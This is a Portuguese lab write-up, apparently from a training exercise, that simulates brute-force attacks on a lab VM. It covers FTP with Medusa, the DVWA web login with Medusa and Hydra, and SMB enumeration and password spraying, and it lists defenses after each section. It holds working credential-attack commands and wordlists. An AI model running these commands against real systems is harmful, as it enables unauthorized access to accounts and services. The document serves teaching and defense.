\#Simulação de ataque ao FTP utilizando o Medusa

Comando para verificar se tenho acesso a outra na máquina na rede:

ping \-c 3 192.168.56.101



ok

\#\#Enumeração  
descoberta de quais serviços estão disponíveis no alvo:

nmap \-sV \-p 21,22,80,334,139 192.168.56.101



Porta 21 FTP aberta

Tentando acessar o FTP:  
ftp 192.168.56.101



\#\#Criando Usuários e Senhas

echo \-e “user\\nmsfadmin\\nadmin\\nroot” \> users.txt  
cria arquivo de usuários com usuários mais comuns

echo \-e ”123456\\npassword\\nqwerty\\nmsfadmin” \> pass.txt  
Cria um arquivos de senhas com as senhas mais usadas.

Usando o Medusa para atacar o FTP com 6 threads:

medusa \-h 192.168.56.101 \-U users.txt \-P pass.txt \-M ftp \-t 6

Sucesso detectado com usuário “msfadmin” e senha “msfadmin”:  


Testado e confirmado:



Como evitar:  
\- Desativar serviços desnecessários, se o FTP não é necessário, não deve estar ativo  
\- Utilizar protocolos mais modernos como o sFTP  
\- Utilizar senhas fortes, longas, imprevisíveis e devem ser trocadas periódicamente.  
\- Bloqueios por número de tentativas.  
\- Manter os serviços atualizados.  
\- Usar autentição multifator.  
\- Auditorias periódicas são muito importantes, monitorar e alertar qualquer tentativa repetida de autentição deve gerar um alerta.

\---

Simulando Ataques de Força Bruta em Formulários de Login Web

Acessar pelo navegador:

192.168.56.101\\dvwa



Ao tentar logar com o login marco e senha 123:  


criando os usuários e senhas:

echo \-e “user\\nmsfadmin\\nadmin\\nroot”  \> users.txt  
echo \-e “123456\\npassword\\nqwerty\\nmsfadmin” \> pass.txt

Comando com o host, loins e senhas para atacar usando o módulo (protocolo http), onde o PAGE é o caminho, o FORM com os campos do formuláiro a serem preenchidos e por fim a mensagem de erro: 

medusa \-h 192.168.56.101 \-U users.txt \-P pass.txt \-M http \\  
\-m PAGE: ‘/dvwa/login.php’ \\  
\-m FORM: ‘username=^USER^\&password=^ PASS^\&Login=Login’ \\  
\-m ‘FAIL=Login failed’ \- t 6



\*\*Problema:  
Todos constaram como SUCCESS\*\*

Então utilizei o Hydra pra fazer esse teste:

hydra \-L users.txt \-P pass.txt 192.168.56.101 http-post-form "/dvwa/login.php:username=^USER^\&password=^PASS^\&Login=Login:Login failed"



Usuário localizado: admin com senha: password

Como evitar:  
\- Utilizar token csrf  
\- Implementar limite de tentativas de login por IP  
\- Bloqueios temporários após várias tentativas.  
\- Captcha  
\- Autenticação multifator  
\- Monitoramento de logs com alerta

\---

Ataque em cadeia: Enumeração SMB e Password Spraying

A enumeração de usuários é a confirmação de quais são os usuários reais do sistema.

enum4linux \-a 192.168.56.101 | tee enum4\_output.txt

usuários detectados:



Criando wordlists com usuários e senhas: 

echo \-e “user\\nmsfadmin\\nservice” \> smb\_users.txt

echo \-e “password\\n123456\\nWelcome123\\nmsfadmin  
“ \> senhas\_spray.txt

comando par o ataque utilizando o medusa:

medusa \-h 192.168.56.101 \-U smb\_users.txt \-P senhas\_spray.txt \-M smbnt \-t 2 \-T 50

utilizando o host, usuários, senhas utilizando o módulo smbnt, duas threads simultaneas, até 50 hosts em paralelo.



tem uma linha com Account Found, com user e senha: msfadmin

Testando o acesso:   
smbclient \-L //192.168.56.101 \-U msfadmin

Acesso conseguido:



Como evitar:  
\- Autenticação multifator;  
\- Senhas fortes e expiradas periodicamente;  
\- Bloqueios de IPs após multiplicas tentativas de login;  
\- Monitoramento inteligente de logs e comportamentos;  
\- Segmentação da rede;  
\- Auditorias regulares.	

